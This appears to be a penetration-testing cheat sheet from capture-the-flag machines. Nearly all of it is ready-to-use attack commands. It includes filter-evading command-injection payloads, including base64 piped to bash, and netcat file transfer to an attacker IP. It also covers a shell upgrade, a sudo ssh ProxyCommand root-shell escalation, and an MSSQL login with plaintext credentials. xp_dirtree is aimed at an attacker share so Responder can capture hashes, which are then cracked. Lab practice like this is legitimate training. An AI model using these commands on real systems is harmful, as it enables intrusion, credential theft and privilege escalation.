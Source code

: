 ### Command Execution
- Use `$(IFS=_command;=’command’;$command)`
- Base64 encoded: `;echo${IFS%??}"BASE64"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;`

### URL Encoder/Decoder
- [URL Encoder](https://www.urlencoder.org/)

### File Transfer via Netcat
- Receiver: `nc -nlvp 9000 > file.jar`
- Sender: `nc 10.10.14.6 9000 < file.jar`

### Shell Upgrade
- `python -c 'import pty;pty.spawn("/bin/bash")'`

### PostgreSQL
- Connect: `psql -h 127.0.0.1 -U postgres`
- List databases: `\list`
- Switch to DB: `\c cozyhosting`
- List tables: `\d`

### Hashcat
- Find algos: `hashcat --help | grep -i '$2'`

### Privilege Escalation
- `sudo -l` to list permitted commands
- For SSH: `sudo ssh -o ProxyCommand='; bash 0<&2 1>&2' x`

## Escape Technique Cheat Sheet

### MSSQL Access & Enumeration
- Access MSSQL: `./mssqlclient.py sequel.htb/PublicUser:GuestUserCantWrite1@dc.sequel.htb`
- List Databases: `select name from master..sysdatabases;`
- Enumerate Directories: `EXEC xp_dirtree '\\10.10.14.6\share', 1, 1`
- Execute Subdirs: `EXEC master..xp_subdirs '\\10.10.110.17\share\'`

### Responder for Hash Capture
```bash
sudo apt install responder
sudo responder -I tun0
```

### Hash Cracking
- Hashcat: `hashcat .. .. -o`

### Bloodhound Installation & Usage
```bash
sudo apt update && sudo apt install -y bloodhound
curl -L https://github.com/SpecterOps/BloodHound/raw/main/examples/docker-compose/docker-compose.yml | docker compose -f - up
```
